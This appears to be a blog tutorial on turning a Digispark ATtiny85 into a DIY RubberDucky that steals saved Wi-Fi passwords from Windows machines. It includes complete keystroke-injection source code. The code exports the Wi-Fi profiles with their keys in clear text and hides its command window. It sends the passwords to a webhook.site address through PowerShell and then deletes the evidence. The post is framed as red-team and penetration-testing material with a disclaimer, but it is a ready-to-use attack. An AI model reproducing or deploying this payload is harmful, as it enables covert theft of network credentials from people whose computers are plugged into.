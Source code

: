 ```yaml
---
title: "DIY RubberDucky Wifi Passwords Stealer"
subtitle: "Steal Wifi passwords with a DIY RubberDucky."
description: "Steal Wifi passwords with a DIY RubberDucky."
excerpt: "Steal Wifi passwords with a DIY RubberDucky."
header-img: /assets/img/rubberducky/rubberducky.png
featured-image: /assets/img/rubberducky/rubberducky.png
featured-image-alt: "Creating $3 DIY RubberDucky"
tags: [windows, mac, linux, rubberducky, Wifi password, red team, penetration testing]
---
```


![DIY RubberDucky](/assets/img/rubberducky/rubberducky.png)

In this post, I'll walk through how you can steal Wifi passwords with a DIY RubberDucky and send over to a webhook address. This payload will only work with internet access. You can have a local listener setup but that's totally up to you. I'll be using payload from [MTK911](https://github.com/MTK911/Attiny85/tree/master/payloads).<br>

### Webhook

Before we get into setting payload, let's head over to [https://webhook.site/](https://webhook.site/) to get a webhook address that we can use. Copy the webhook address. You will also see an email address that you can use but we won't be utilizing that in this walk thorugh.

```
https://webhook.site/35013eef-f6b1-4833-a3b0-xxxxxxxxxxxx
```

 ![DIY RubberDucky](/assets/img/wifistealer/wifi02.png)

### Payload

Github: [MTK911/Wifi-password-stealer](https://github.com/MTK911/Attiny85/blob/master/payloads/Wi-Fi%20password%20stealer/WifiKey-Grab_Minimize-of-Shame.ino)

You can try out other payloads from MTK911 as well. He posted quite a number of awesome payloads.

Fire up your Arduino IDE. Make sure Digispark drivers are installed. If you haven't done so already, please see my previous post for the setup guide.

Make sure that Boards Manager is set to `Digistump 16.5mhz` and Programmer set to `Micronucleus`.

Paste the code into the IDE:

```
/*
  Following payload will grab saved Wifi password and will send them to your hosted webhook and hide the cmd windows by using technique mentioned in hak5darren
 rubberducky wiki -- Payload hide cmd window [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---hide-cmd-window]
*/


#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop() {
   
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
 
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //smallest cmd window possible
  DigiKeyboard.delay(500);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); //Menu  
  DigiKeyboard.sendKeyStroke(KEY_M); //goto Move
  for(int i =0; i < 100; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN);
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //Detach from scrolling
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/<ADD-WEBHOOK-ADDRESS-HERE> -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del Wi-* /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(100);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);
  
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
  
}
```

Your IDE should now look something like this:

![DIY RubberDucky](/assets/img/wifistealer/wifi01.png)

Be sure to paste in your unique webhook address that you obtained above. You can play around with the delay to better suit your needs. 

Press `Upload` button when ready.

![DIY RubberDucky](/assets/img/instantshell/shell02.png)

You will see the message saying: `Plug in the device now...`.

![DIY RubberDucky](/assets/img/instantshell/shell03.png)

Plug in your ATtiny85. When done, `Micronucleus done. Thank you!` message will show.

![DIY RubberDucky](/assets/img/instantshell/shell04.png)

> Always remember to unplug the Digispark before hitting upload and plug it in when the Arduino IDE requests you to. If you get an error that assertion failed or micronucleus crashed during upload then you probably did not unplug your Digispark before uploading.

Now, plug the device into a computer and wait for it to trigger.

![DIY RubberDucky](/assets/img/wifistealer/wifi03.png)

For any questions, feel free to reach out to me on twitter.

> DISCLAIMER: All the software/scripts/applications/things in this repository are provided as is, without warranty of any kind. Use of these software/scripts/applications/things is entirely at your own risk. Creator of these softwares/scripts/applications/things is not responsible for any direct or indirect damage to your own or defiantly someone else's property resulting from the use of these software/scripts/applications/things. 